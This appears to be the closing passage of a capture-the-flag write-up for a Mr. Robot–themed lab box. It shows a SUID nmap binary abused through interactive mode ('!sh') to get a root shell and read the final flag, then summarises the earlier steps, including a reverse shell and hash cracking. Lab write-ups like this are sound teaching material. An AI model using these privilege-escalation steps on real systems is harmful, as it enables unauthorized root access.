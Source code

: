 One of the results shows:

```bash
-rwsr-xr-x 1 root root   17272 Jun 2  18:23 /usr/local/bin/nmap
```

`nmap` has the SUID permission set and it's owned by `root`.

### Exploit Nmap SUID for Shell

The [GTFOBins](https://gtfobins.github.io/) website is checked for a method to exploit `nmap`.

The page shows that `nmap` can be launched in interactive mode:

```bash
namp --interactive
```
Executing the following results in a root shell:

```bash
nmap> !sh
```

## Post-Exploitation

Upon checking the `/root` directory with the following command:

```bash
ls -la /root
```

The following file is found:

```bash
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
```

Reading the file reveals the third and final flag:

```bash
cat /root/key-3-of-3.txt
```

## Conclusion

This CTF, inspired by Mr. Robot, effectively simulated real-world exploitation techniques, with a focus on enumeration, privilege escalation, and web application exploitation. Through careful reconnaissance, crucial paths and credentials were discovered, leading to successful exploitation of the WordPress admin panel. After gaining initial access, user switching and privilege escalation were achieved using common techniques such as cracking MD5 hash and leveraging and SUID-enabled binary. Ultimately, the challenge demonstrated a comprehensive workflow from reconnaissance to privilege escalation, culminating in the retrieval of all three flags.

## Skills Practiced

- Directory and file enumeration using `gobuster`.
- Base64 decoding and credential extraction.
- Reverse shell creation and listener setup.
- Privilege escalation via SUID misconfiguration.
